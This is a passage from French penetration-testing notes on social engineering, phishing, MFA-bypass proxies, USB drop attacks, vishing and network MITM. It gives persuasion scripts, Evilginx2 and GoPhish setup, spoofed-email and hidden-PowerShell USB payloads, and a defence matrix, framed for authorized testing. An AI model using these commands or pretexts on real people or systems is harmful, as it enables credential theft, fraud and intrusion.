    D --> E["5. Reporting<br>QU'EST-CE qu'on a obtenu ?"]
    E -.->|"itération"| A
```

### 21.1 Les 5 étapes

1. **OSINT** : identité, rôle, emails, habitudes → [[01 - Reconnaissance]].
2. **Prétexte** : le scénario crédible (IT, RH, DG, fournisseur, livreur...). Il conditionne tout.
3. **Vecteur** : email (phishing), téléphone (vishing), SMS (smishing), clé USB, site cloné.
4. **Exécution** : récupérer des creds, faire installer un payload, faire transférer de l'argent.
5. **Reporting** : documenter QUOI a été obtenu et COMMENT, pour corriger.

### 21.2 Les leviers psychologiques (Cialdini)

| Levier | Principe | Exemple de prétexte |
|:--|:--|:--|
| **Autorité** | On obéit à un statut | \"Je suis du service informatique de la direction\" |
| **Urgence / rareté** | Décision sous pression | \"Votre compte sera bloqué dans 1h\" |
| **Preuve sociale** | On suit le groupe | \"Tous vos collègues ont déjà cliqué\" |
| **Réciprocité** | On rend un service | \"Je vous ai débloqué un accès, confirmez\" |
| **Engagement** | On reste cohérent | \"Vous aviez demandé cette réinitialisation\" |
| **Sympathie** | On aide ceux qu'on aime | Compliments, intérêts partagés |

### 21.3 Elicitation (extraction d'infos)

- **Fausse ignorance** : \"je ne comprends pas, tu peux m'expliquer ?\"
- **Question à choix multiples** : \"c'est le bâtiment A ou B qui gère les badges ?\"
- **Fausse nouvelle** : énoncer une fausse info, écouter la correction.
- **Collègue de confiance** : se faire passer pour un nouvel employé perdu.

> [!success] **Règle d'or** : le facteur humain domine — **scénario crédible > technique**. Un
> email bien ciblé bat n'importe quel exploit. La partie technique (payload) est souvent le
> **dernier** problème.

---

## 22. Phishing

Le **phishing** est l'arme n°1 de la SE : un email/site **convaincant** qui vole un login ou fait
installer un payload. Deux flux : **campagnes organisées** (GoPhish) et **usurpation directe**
(SET, emails forgés, clones).

### 22.1 GoPhish — campagne complète

```bash
./gophish      # UI admin : http://127.0.0.1:3333
# 1. Sending profile : SMTP + identité d'expéditeur
# 2. Landing page : clone de login (capture)
# 3. Email template : message ({{.URL}}, {{.FirstName}}...)
# 4. Campaign : cibles + envoi + tracking
# 5. Suivi : envoyés, ouverts, cliqués, credentials soumis
```

```mermaid
flowchart LR
    A["Sending profile<br>(SMTP)"] --> B["Template email"]
    B --> C["Landing page<br>(clone de login)"]
    C --> D["Campagne + cibles"]
    D --> E["Tracking<br>ouvert / cliqué / soumis"]
    E --> F["Credentials récupérés"]
```

### 22.2 SET

```bash
setoolkit
# 1) Social-Engineering Attacks
#   1) Spear-Phishing (Mass Mailer / File Format macro)
#   2) Website Vectors (Credential Harvester / Clone Site)
#   3) Infectious Media Generator (USB)
```

### 22.3 Email spoofing & SPF/DKIM/DMARC

| Mécanisme | Record DNS | Rôle | Échec |
|:--|:--|:--|:--|
| **SPF** | `TXT v=spf1 ip4:... ~all` | Autorise les serveurs d'envoi | Mail marqué spoof |
| **DKIM** | `TXT <selector>._domainkey` | Signature cryptographique | Signature invalide |
| **DMARC** | `TXT _dmarc.<domaine>` | Politique + rapports | Quarantine / reject |

```bash
dig TXT google.com | grep spf
dig TXT _dmarc.google.com
dig TXT selector1._domainkey.google.com
swaks --to victime@domaine.fr --from "it-support@domaine.fr" \
  --header "Subject: Verification" --body "Cliquez : http://att" --server smtp-relay.corp
```

> [!warning] **Le phishing \"moche\"** : domaine faux + pas de cert + grammaire mauvaise = échec.
> Pense : domaine similaire, HTTPS valide, en-têtes propres, **urgence crédible**. Pour le MFA, §23.
> Outils : [[Outil - GoPhish]], [[Outil - SET]], [[Outil - King-Phisher]], [[Outil - SocialFish]], [[Outil - CredSniper]], [[Outil - Weeman]]

---

## 23. MFA Bypass & Advanced Phishing

Le MFA bloque le harvester classique : le code OTP part vers le vrai service. Les attaques **AiTM**
(Adversary-in-the-Middle) s'intercalent en temps réel : un **reverse proxy** (Evilginx2, Modlishka)
se présente comme le vrai site, capte le mot de passe **et** le code OTP, puis se connecte au vrai
service à la place de la victime.

```mermaid
sequenceDiagram
    participant V as Victime
    participant P as Proxy AiTM (Evilginx2)
    participant R as Vrai service
    V->>P: login + password (site cloné)
    P->>R: login + password
    R->>P: session légitime
    P->>V: demande OTP (comme le vrai site)
    V->>P: OTP saisi
    P->>R: OTP → session complète
    Note over P: Session légitime détournée<br>(cookie volé / relay)
```

### 23.1 Evilginx2

```bash
git clone https://github.com/kgretzky/evilginx2 && cd evilginx2 && make
sudo ./evilginx2
evilginx> config domain evil.io        # domaine du proxy
evilginx> phishlets hostname github    # activer le phishlet github
evilginx> lhost 192.168.1.99
evilginx> proxy on
# URL : https://github.com.evil.io → capture password + OTP + cookie
```

### 23.2 Les autres outils AiTM

| Outil | Type | Particularité |
|:--|:--|:--|
| **Evilginx2** | Reverse proxy | Phishlets par site, OTP relay, cookies |
| **Modlishka** | Reverse proxy | Multi-domaines, agressif |
| **Muraena + NecroBrowser** | Reverse proxy | Rejoue la session dans un vrai navigateur |
| **CredSniper / SocialFish / Weeman** | Harvester | Templates clés en main |

### 23.3 Autres bypass MFA

- **MFA fatigue** : bombarder de notifications de validation → la victime accepte.
- **Session/cookie theft** : voler la session post-auth (BeEF, malware, XSS).
- **Consent phishing** : app OAuth malveillante approuvée (Azure) → accès en son nom.
- **SIM swap** : détourner le numéro pour recevoir les SMS OTP (cross-ref §25).

> [!warning] **Protections efficaces** : MFA **phishing-resistant** (FIDO2 / WebAuthn, passkeys)
> neutralise le relay OTP : la clé est liée au domaine légitime. Cross-ref : §27.
> Outils : [[Outil - Evilginx2]], [[Outil - Modlishka]], [[Outil - CredSniper]], [[Outil - SocialFish]], [[Outil - Weeman]]

---

## 24. USB Drop & Physical

Les **attaques USB** exploitent la confiance physique : une clé trouvée, un câble offert, un
chargeur \"oublié\". L'USB est une porte d'entrée **brutale** : le poste se compromet en quelques
secondes.

```mermaid
flowchart LR
    A["Clé / câble malveillant"] -->|"posé / offert"| B["Employé curieux<br>l'insère"]
    B -->|"HID (clavier)"| C["Frappes injectées<br>DuckyScript"]
    B -->|"Réseau (RNDIS)"| D["Reverse shell / C2"]
    B -->|"Storage"| E["Auto-run / dropper"]
    C --> F["Compromission du poste"]
    D --> F
    E --> F
```

### 24.1 Les dispositifs

| Dispositif | Type | Mode d'attaque | Fiche |
|:--|:--|:--|:--|
| **USB Rubber Ducky** | HID clavier | Keystroke injection | [[Outil - USB Rubber Ducky]] |
| **Bash Bunny** | HID + storage + réseau | Payloads bash, exfil | [[Outil - Bash Bunny]] |
| **Flipper Zero** | HID + radio | BadUSB, Sub-GHz, RFID, BLE | [[Outil - Flipper Zero (USB & radio)]] |
| **O.MG Cable** | USB + WiFi | C2 à distance, keystroke | [[Outil - O.MG Cable]] |
| **WiFi Pineapple** | Réseau | Rogue AP portatif | [[Outil - WiFi Pineapple]] |
| **P4wnP1 A.L.O.A.** | RPi Zero | HID + réseau + payloads | (voir vault) |

### 24.2 DuckyScript — exemple

```bash
# payload.txt (USB Rubber Ducky)
DELAY 1000
GUI r
DELAY 500
STRING powershell -w hidden -enc BASE64_PAYLOAD
ENTER
```

### 24.3 Bash Bunny — exemple

```bash
# payloads/switch1/payload.txt
LED SETUP
ATTACKMODE HID STORAGE        # clavier + clé USB
Q DELAY 1000 ; Q GUI r ; Q STRING powershell -w hidden -enc BASE64_PAYLOAD ; Q ENTER
# exfil via RNDIS_ETHERNET / dossier loot
```

> [!warning] **Cas d'usage** : efficace mais **bruyant** (caméras, DLP). Brille en **red team**
> et en **sensibilisation** (clés de test contrôlées). Voir aussi [[Techniques/Protocole USB| USB]]

---

## 25. Vishing & Smishing

**Vishing** = phishing par téléphone, **smishing** = par SMS. Deux vecteurs négligés mais très
rentables : le téléphone crée de l'**urgence** en direct, le SMS a des taux d'ouverture élevés.

### 25.1 Prétextes courants

| Vecteur | Prétexte classique | Objectif |
|:--|:--|:--|
| **Vishing** | \"IT : votre compte est bloqué\" | Reset mdp, code MFA |
| **Vishing** | \"RH : mise à jour de vos infos\" | Infos personnelles |
| **Vishing** | \"Fournisseur : erreur de paiement\" | Virement frauduleux |
| **Smishing** | \"Colis en attente\" | Clic → harvester / malware |
| **Smishing** | \"Code de sécurité\" | OTP relay, SIM swap |

### 25.2 Outillage & techniques

```bash
# SET - callback attack (vishing)
setoolkit
# 1) Social-Engineering Attacks → 9) Callback Attack Vectors
# Spoofing d'appel : trunk SIP / caller-ID spoof (encadré) + voix IA
# Smishing : SMS via gateway/API (Twilio...), liens raccourcis + tracking
```

| Technique | Utilisation | Défense |
|:--|:--|:--|
| Caller ID spoofing | Masquer le numéro | Vérifier par un autre canal |
| Voix synthétiques (IA) | Imiter DG/IT | Processus de validation interne |
| URL raccourcies | Cacher la destination | Hover + rapports anti-phishing |
| SIM swap | Voler le canal SMS OTP | Alerte opérateur, MFA FIDO2 |

> [!warning] **Cadre strict** : usurpation d'identité téléphonique + IA vocale = **encadrées**
> par la loi. Tests avec autorisation écrite, prétextes génériques.
> Cross-ref : §23 pour le SIM swap / relay OTP.

---

## 26. MITRE ATT&CK

Techniques de ce hub documentées **MITRE ATT&CK** — utile pour reporting, règles Sigma et
alignement défensif.

| ID | Technique | Sections | Couverture |
|:--|:--|:--|:--|
| **T1557** | Adversary-in-the-Middle | §13-20 | MITM global |
| **T1557.001** | LLMNR/NBT-NS Poisoning and SMB Relay | §17-18 | Responder + ntlmrelayx |
| **T1557.002** | ARP Cache Poisoning | §14 | arpspoof / bettercap |
| **T1557.003** | DHCP Spoofing | §19 | mitm6 / rogue DHCP |
| **T1557.004** | Network Device Authentication Bypass | §7-8 | rogue AP, 802.1X bypass |
| **T1566** | Phishing | §21-23 | SE / phishing |
| **T1566.001** | Spearphishing Attachment | §22, §24 | Macro Office, payload |
| **T1566.002** | Spearphishing Link | §22-23 | GoPhish / Evilginx |
| **T1566.003** | Spearphishing via Service | §22 | LinkedIn, Teams |
| **T1566.004** | Spearphishing Voice | §25 | Vishing |
| **T1200** | Hardware Additions | §24 | USB drop, rogue AP |
| **T1555** | Credentials from Password Stores | §22-23 | Post-compromission |

```mermaid
flowchart LR
    A["T1566 Phishing"] --> B["T1557 Adversary-in-the-Middle"]
    B --> C["Creds / hashes<br>T1555 / T1003"]
    A --> D["T1200 Hardware Additions"]
    D --> C
    C --> E["Accès au réseau<br>(AD / poste)"]
```

> Référence : https://attack.mitre.org/techniques/T1557/ · règles : [[Outil - Sigma]] ·
> cross-ref : [[05 - Active Directory]]

---

## 27. Détection & Défense

Chaque attaque de ce hub a une contre-mesure. Priorités : **durcir les legacy**, **segmenter**,
**surveiller les couches 2-3**, **éduquer**.

### 27.1 Matrice attaque → défense

| Attaque | Détection | Contre-mesure principale |
|:--|:--|:--|
| Rogue AP / Evil Twin | WIDS ([[Outil - Kismet]]), sondes RF | **802.1X** + listes d'AP autorisées |
| Handshake / PMKID capture | Monitor passif des canaux | WPA3, passphrase forte |
| WPS | Audit des AP | **Désactiver WPS** |
| Enterprise (PEAP) | Audit EAP | **EAP-TLS** (certs clients) |
| ARP spoofing | `arpwatch`, DHCP snooping, **DAI** | Dynamic ARP Inspection |
| DNS spoofing | DNS log / DoH interne | **DNSSEC**, DoH/DoT, RPZ |
| HTTPS strip | Monitoring TLS downgrade | **HSTS preload** + policy |
| LLMNR/NBT-NS poisoning | Logs réseau (Sigma) | **Désactiver LLMNR/NBT-NS** (GPO) |
| NTLM relay | Audit SMB signing | **SMB signing obligatoire**, EPA |
| DHCPv6 | Logs DHCPv6 | **Désactiver IPv6 si inutile**, RA Guard |
| USB drop | Endpoint DLP | **USB device control** (GPO/USBGuard) |
| Phishing | Awareness + filtrage email | **MFA phishing-resistant (FIDO2)** |

### 27.2 Commandes de détection rapide

```bash
sudo arpwatch -i eth0                     # anomalies ARP
arp -a                                    # doublons IP/MAC
sudo tcpdump -i eth0 udp port 5355        # LLMNR
sudo tcpdump -i eth0 udp port 137         # NBT-NS
nmap --script smb2-security-mode -p 445 192.168.1.20   # SMB signing
```

### 27.3 Les fondamentaux

- **802.1X / NAC** : aucun poste non authentifié n'accède au réseau.
- **Segmentation** : VLAN + pare-feu par zone → un MITM reste confiné.
- **MFA phishing-resistant** (FIDO2/WebAuthn) : neutralise Evilginx et le relay OTP.
- **Durcir les legacy** : LLMNR/NBT-NS off, SMB signing, EAP-TLS, HSTS preload.
- **Formation continue** : campagnes de phishing internes (GoPhish) + feedback.

> Cross-ref : [[10 - Cheatsheets]], [[Outil - Sigma]], [[Outil - Kismet]]

---

## 28. Tips & Pièges

> [!tip] **Adapter le bon adaptateur WiFi (le vrai point bloquant)**
> - Il faut un chipset **compatible moniteur mode + packet injection** :
>   - **Alfa AWUS036ACH / AWUS036NHA** (les références)
>   - Chipset Realtek **rtl8812au**, Atheros, Intel (certains), Broadcom (galère)
> - Vérifie : `airmon-ng` / `airmon-ng check`
> - Sans packet injection, pas de deauth, pas de capture utile → ça bloque tout.

> [!tip] **Régulation : définir la bonne région**
> ```bash
> # La carte est souvent limitée à la région US par défaut → canaux limités
> iw reg set FR
> # Ex : le canal 13 / DFS ne sont accessibles qu'avec la bonne région
> ```

> [!tip] **WPA3 / transition mode**
> - WPA3 (SAE) ne capte pas avec `aircrack` directement : il faut **capturer le handshake SAE**.
> - Les réseaux en **transition (WPA2/WPA3)** autorisent toujours WPA2 → capture classique.
> - En entreprise, le **PMKID** marche même sans client (voir §4).

> [!tip] **Evil Twin entreprise (le plus efficace en réel)**
> ```bash
> # hostapd-wpe : capturer les credentials EAP (PEAP/MSCHAPv2) sans rien casser
> # → un utilisateur se connecte au faux AP "Entreprise" → login+hash → cracker ou relayer
> hashcat -m 5500 mschapv2.txt rockyou.txt
> ```

> [!tip] **bettercap : l'injection JavaScript**
> ```bash
> sudo bettercap -iface eth0
> > set http.proxy.script /path/hook.js
> > http.proxy on
> > arp.spoof on
> # hook.js : modifier la page, voler des données, injecter un script de phishing
> # (nécessite d'être MITM - voir plus haut)
> ```

> [!warning] **Piège n°1 : le MITM moderne ne marche plus "tout seul"**
> HSTS, HTTPS-only, cert pinning, ARP filtering, DHCP snooping... Sur du trafic moderne,
> le MITM simple échoue. Il faut :
> - un **certificat** installé chez la victime (ou proxy explicitement configuré)
> - ou se concentrer sur les protocoles **non chiffrés** et les **hashes** (LLMNR/NTLMv2)
> - ou un point d'accès compromis / contrôle réseau réel.

> [!warning] **Piège n°2 : arp.spoof = coupure réseau visible**
> Si la victime perd Internet, c'est qu'on a **cassé le forwarding** :
> ```bash
> sysctl -w net.ipv4.ip_forward=1
> # vérifier aussi iptables (FORWARD ACCEPT)
> # ne pas spoof la passerelle ET la cible en même temps par erreur
> ```

> [!warning] **Piège n°3 : le phishing "moche"**
> - Domaine **faux** (typosquatting) + **pas de certificat** = échec quasi certain.
> - Pense **Evilginx / Modlishka** (proxy de phishing avec **MFA bypass** en temps réel)
> - Le facteur humain domine : scénario crédible > technique.

> [!success] **Le combo SE le plus efficace (en lab approuvé)**
> **OSINT ciblée** (nom, rôle, habitudes) + **email crédible** (domaine similaire)
> + **urgence** + **lien vers un portail cloné** (harvest) → taux de clic 60-80%.
> La partie "technique" (payload) est souvent le **dernier** problème.

### 28.1 Pièges supplémentaires

> [!warning] **Piège n°4 : oublier IPv6** : on durcit l'IPv4 (ARP, DHCP) et on oublie l'**IPv6** :
> DHCPv6 spoofing (mitm6) re-pointe tout le DNS. Toujours vérifier `ip -6 addr`, DHCPv6 sur le
> segment. Voir §19.

> [!warning] **Piège n°5 : Responder trop gourmand** : il **répond à tout** → incidents, SIEM,
> services cassés. En contrat : la bonne interface, options minimales (`-w`), ciblage.

> [!tip] **Wifite pour vérifier la config** : `sudo wifite --list` affiche les capacités
> (moniteur, injection) en une commande avant l'attaque manuelle.

> [!tip] **Cross-check des résultats** : croiser handshake + PMKID + WPS → si 2 méthodes
> convergent, la passphrase est quasi certaine. Un seul hash peut être corrompu.

---

## 29. Méthode express

### 29.1 Le workflow SE express

```
1. Récolte d'infos sur la cible (OSINT, note 01)
2. Prétexte (scénario crédible) : IT, RH, DG...
3. Vecteur : email, téléphone, USB, site cloné
4. Exécution : récupérer creds / lancer un payload
5. Reporting : QU'EST-CE qu'on a réussi à obtenir ?
```

```mermaid
flowchart TD
    A["60 min de OSINT<br>nom, email, rôle"] --> B["Prétexte<br>urgence + autorité"]
    B --> C["GoPhish / SET<br>clone du portail interne"]
    C --> D["Envoi + tracking"]
    D --> E{"Clic ?"}
    E -->|"Oui"| F["Creds capturées<br>ou payload"]
    E -->|"Non"| G["Changer de prétexte<br>ou de vecteur"]
    F --> H["Reporting"]
```

### 29.2 Les checklists rapides

**Checklist WiFi express :**
1. `airmon-ng start wlan0` + `iw reg set FR`
2. `airodump-ng wlan0mon` → cibler (ESSID, canal, WPS, client)
3. Pas de client → **PMKID** (`hcxdumptool`) · sinon **handshake** (deauth)
4. `hashcat -m 22000` ou `aircrack-ng`
5. WPS actif → `oneshot -K` (pixie dust) · Enterprise → **hostapd-wpe**

**Checklist MITM express :**
1. `sysctl -w net.ipv4.ip_forward=1`
2. `bettercap` → `arp.spoof on` + `net.sniff on`
3. `responder -I eth0 -wrf` (hashes NetNTLMv2)
4. `ntlmrelayx.py -t ldap://DC --escalate-user ...` ou crack `hashcat -m 5600`
5. IPv6 présent → `mitm6 -d domain.local` + relay
6. HTTP visible → `dns.spoof on` + `http.proxy.script` (hook.js)

**Checklist SE express :**
1. OSINT ciblée (nom, rôle, habitudes) → [[01 - Reconnaissance]]
2. Prétexte urgent + autorité (IT/HR)
3. Portail cloné (GoPhish / SET / Evilginx2)
4. Tracking (ouvert / cliqué / soumis)
5. Reporting précis de la chaîne de compromission

> [!success] **En un mot**
> **Wireless** : la capture de hash + crack offline gagne la partie. **MITM** : ne cible que ce qui
> reste en clair ou dégrade proprement. **SE** : le prétexte crédible bat toute la technique.

---

> [!warning] **Rappel strict** : l'ingénierie sociale **sans autorisation écrite** est illégale.
> Tout est à tester sur ton lab / campagnes approuvées.
